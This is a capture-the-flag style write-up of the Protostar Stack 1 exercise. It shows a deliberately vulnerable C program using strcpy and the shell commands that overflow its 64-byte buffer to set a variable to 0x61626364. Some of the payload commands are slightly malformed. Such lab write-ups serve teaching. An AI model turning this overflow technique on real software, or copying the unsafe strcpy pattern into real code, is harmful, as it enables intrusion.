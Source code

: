 ```yaml
---
author: "faizul"
title: "Protostar Stack-01"
date: 2020-09-30T12:30:06+10:00
description: "Exploit-Exercise Protostar Stack-1"
draft: false
hideToc: false
enableToc: true
enableTocContent: false
image: images/protostar/protostar.jpeg
tags: 
- reverse-engineering
- protostar
- exploit-exercise
- buffer-overflow
categories:
- writeup
- reverse-engineering
- buffer-overflow
series:
- protostar
---
```


# Stack 1

## About

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

### Hints

- If you are unfamiliar with the hexadecimal being displayed, `man ascii` is your friend.
- Protostar is little endian


## Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

## First run
```bash
user@protostar:/opt/protostar/bin$ ./stack1 a
Try again, you got 0x00000000


user@protostar:/opt/protostar/bin$ ./stack1 aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Try again, you got 0x00000061
```

Just like last activity, i use the same payload as the code also hold only 64 bit value of buffer and looks like i almost solve the activity. 

Lets try the python payload.

```bash
user@protostar:~$ python -c "print 'A' * 65 | xargs /opt/protostar/bin/stack1

Try again, you got 0x00000041
```

Dig in the code, we can found that `if(modified == 0x61626364)` then the program will print `you have correctly got the variable to the right value`. 

The value of 0x61626364 is actually hexadecimal value that gave us x64 which is equal to d, x63 to c, x62 to b and x61 to a.

Remember the hints given on the #About section, `Protostar is little endian`. This means the value should be in inverse where `least significant byte in the smallest address`. 

In order to satisfy the value set on code, we have to place the payload like `dcba` or `\x64\x63\x62\x61`.

```bash
user@protostar:~$ python `print("A" * 64 + "\x64\x63\x62\x61")` | xargs /opt/protostar/bin/stack1

you have correctly got the variable to the right value
```

## References

1. [Big-endian vs Little-endian](https://levelup.gitconnected.com/little-endian-vs-big-endian-eb2a2c3a9135)
